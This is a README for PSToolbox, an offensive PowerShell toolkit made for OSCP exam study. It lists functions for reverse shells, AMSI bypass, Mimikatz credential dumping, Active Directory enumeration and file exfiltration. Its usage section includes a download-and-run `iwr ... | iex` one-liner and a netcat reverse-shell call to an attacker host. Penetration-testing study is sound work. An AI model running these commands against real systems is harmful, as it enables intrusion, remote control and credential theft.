 # PSToolbox

PSToolbox is a collection of utilities designed for security operations, including network reconnaissance, reverse shell establishment, data exfiltration, and system analysis. This toolkit facilitates interactions with a custom python web server. It makes performing various other essential tasks in penetration testing and cybersecurity assessments easier once a foothold is established on a Windows machine. It was created as a part of my studies for the OSCP exam and are intended to make tasks during the exam easier.

Functions

    Set-PSToolBoxConfig: Configure global variables including the attacker's IP, web server port, protocol, and toolbox location on the victim machine. This will run automattically when the ps1 is run. In some shells the prompts are not shown but the inputs are still expected. if you set the global variables yourself before running the script you can skip this step.
    Show-PSToolboxConfig: Display the current configuration.
    Get-SingleToolboxItem: Download a single item from the toolbox. Take a location 
    Bypass-AMZEE: Load a script to bypass AMZEE. Select your method. 
    Load-Pview: Load the PowerView script into memory.
    Start-LigoloAgent: Start the Ligolo reverse tunnel agent. Uses default port unless specified.
    Start-SharpHound: Execute SharpHound for Active Directory enumeration.
    Start-Shell: Establish a reverse shell connection.
    Load-ScriptItemInMemory: Load a script item directly into memory. For functions in script files to be available to your pwsh session they must be instantiated as Global. ex. function Global:Func{}
    Start-AdEnum: Perform Active Directory enumeration with homegrown adenum.ps1.
    Start-Winpeas: Execute WinPEAS for privilege escalation.
    Start-Mimikatz: Execute Mimikatz for credential dumping.
    Get-potatos: Download potato exploits.
    Send-FilesHome: Exfiltrate files to the attacker's server.
    UploadStringToWebServer: Upload a string to the web server as a file.
    UploadToWebServer: Upload files to the web server.
    Get-ToolboxItems: Download multiple toolbox items based on a match string.
    
Getting Started:

These instructions will guide you through setting up and using the PSToolbox on your local machine for development and testing purposes.

Prerequisites:

    Git
    Python 3
    Access to a PowerShell environment (for the victim machine simulation)

Installation:
Begin by cloning the PSToolbox repository to your local machine:

    gh repo clone jeamajoal/PSToolbox

# Prepare the Loadables Directory:

Add any required files to the 'loadables' directory
Navigate to the cloned repository and ensure the loadables directory contains all necessary tools and scripts you intend to serve.

# Start the Web Server

Run the provided Python web server script, postserver.py, to serve the content of the loadables directory.

    python3 python/postserver.py -b 0.0.0.0 -p 8443 -u ~/uploads
*NOTE:  The uploads dir is being set OUTSIDE of the loadables folder.  This will make your Get-TollboxItems (gti) run more efficiently later if you so choose to use it. Otherwise if you are ok waiting you can keep it in your loadables folder. 

# Usage

To use the toolbox from a victim machine (simulated environment), run the following PowerShell command. This command utilizes Invoke-WebRequest (alias iwr) to source the GetToolbox.ps1 script from the web server:

powershell

	iwr http://<YourServerIP>:<Port>/GetToolbox.ps1 -UseBasic | iex

You will be prompted for your ip, web server port, is web server secure (https), and Local toolbox directory (defaults to c:\users\public). If the prompts do not echo in your shell they are still waiting for input in this order.  If you would rather set the global variables before running the script this portion will be sckipped.

	#Show the current config
	Show-PSToolboxConfig

	#Reset the config
	Set-PSToolboxConfig -Reset

	#Download all linked files that match linpeas	
	gti -m linpeas
	
	#Download a single toolbox item instead of doing a recursive search
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1'

	#download single item and save with different name
	Get-SingleToolboxItem -item 'enum/adenumv2.ps1' -name 'ad.ps1'

	#Start a netcat reverse shell to the attacker host
	Start-Shell -Type NC -port 4444

This project is licensed under the MIT License - see the LICENSE.md file for details.
Acknowledgments


